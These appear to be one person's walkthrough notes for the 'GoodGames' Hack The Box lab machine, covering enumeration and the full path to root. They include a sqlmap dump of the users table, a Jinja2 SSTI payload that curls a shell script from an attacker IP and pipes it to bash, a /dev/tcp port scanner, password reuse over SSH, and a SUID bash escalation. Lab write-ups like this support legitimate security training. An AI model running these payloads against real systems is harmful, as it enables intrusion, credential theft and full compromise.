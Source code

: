 ## GoodGames

| Name      | IP           | Difficulty | OS   |
| --------- | ------------ | ---------- | ---- |
| goodgames | 10.10.11.130 | Linux      | Easy |

## NMAP

| HOST         | PORT | PROTO | SERVICE      | VERSION |
| ------------ | ---- | ----- | ------------ | ------- |
| 10.10.11.130 | 80   | tcp   | Apache httpd | 2.4.51  |

## HEADERS



## DIRECTORIES

- /blog
- /login
- /profile
- /logouti
- /forgot-password
- /coming-soon

## USERS

- admin superadministrator
- augustus

## NOTES

- Save login request and dump user table `sqlmap -r login.req --batch --dump -D main -T user`
- Crack admin password in Crackstation
- Login with admin credentials to internal-administration.goodgames.htb
- The full name field in settings is SSTI vulnerable, tested with `{{1+1}}`
- Helpful article on SSTI - https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
- curl and exectue bash reverse shell`{{request.application.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.5:8000/shell | bash').read()}}`
- Dockerfile in /backend directory, in a docker container
- There's an eth0 NIC with the IP `172.19.0.2`
- Scan open ports on the IP with only bash available `for port in $(seq 1 1000); do timeout 0.01 bash -c "</dev/tcp/172.19.0.1/$port && echo The port $port is open || echo The Port $port is closed > /dev/null" 2>/dev/null || echo Connection Timeout > /dev/null; done` from https://github.com/AlexRandomed/One-Liner-Bash-Scanner
- SSH is open, SSH as `augustus` with the password `superadministrator`
- Copy bash to augustus' home directory `cp /bin/bash .` and exit SSH
- Make bash owned by root `chown root:root bash`
- Make bash readable and executable by augustus `chmod 4755 bash`
- SSH back in as augustus and run `./bash -p` to spawn a shell as root
